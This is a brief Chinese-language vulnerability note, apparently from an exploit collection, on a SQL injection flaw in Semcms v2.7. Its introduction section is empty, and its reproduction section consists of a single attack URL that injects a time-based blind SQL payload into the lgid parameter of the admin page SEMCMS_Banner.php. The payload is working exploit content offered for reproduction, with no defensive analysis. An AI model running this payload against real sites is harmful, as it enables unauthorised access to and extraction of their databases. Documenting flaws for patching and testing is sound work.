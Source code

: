 ```yaml
---
title: Semcms v2.7 sql注入漏洞
id: zhfly3120
---
```


# Semcms v2.7 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v2.7

## 三、复现过程

```
http://0-sec.org/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --+ 
```